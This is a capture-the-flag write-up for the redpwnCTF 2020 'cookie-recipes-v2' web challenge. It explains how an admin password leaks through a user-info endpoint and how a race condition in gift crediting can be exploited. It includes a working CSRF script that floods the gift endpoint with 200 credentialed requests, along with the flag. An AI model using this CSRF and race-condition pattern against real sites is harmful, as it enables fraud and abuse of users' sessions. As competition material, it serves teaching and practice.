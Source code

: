 # cookie-recipes-v2 (51 solves)

Source: [index.js](./index.js)

The "gift" endpoint is vulnerable to CSRF as long as we have the admin password. We can get this from the `userInfo` endpoint: `https://cookie-recipes-v2.2020.redpwnc.tf/api/userInfo?id=0`. The next step is to figure out how to recieve a gift multiple times, since only 1 gift won't be enough to buy the flag. We can exploit a race condition in the gifting code, as it only sets the recieved status after it gifts us 150 credits. This means that if we spam many gift requests, we can cause the server to gift us multiple times, allowing us to buy the flag.

Final Exploit:

```html
<script>
	for (i = 0; i < 200; i++) {
		var xhr = new XMLHttpRequest();
		xhr.open("POST", "https://cookie-recipes-v2.2020.redpwnc.tf/api/gift?id=11715887817660277906");
		xhr.withCredentials = true;
		xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		xhr.send('{"username":"admin","password":"n3cdD3GjyjGUS8PZ3n7dvZerWiY9IRQn"}');
	}
</script>
```

Flag: flag{n0_m0r3_gu3551ng}
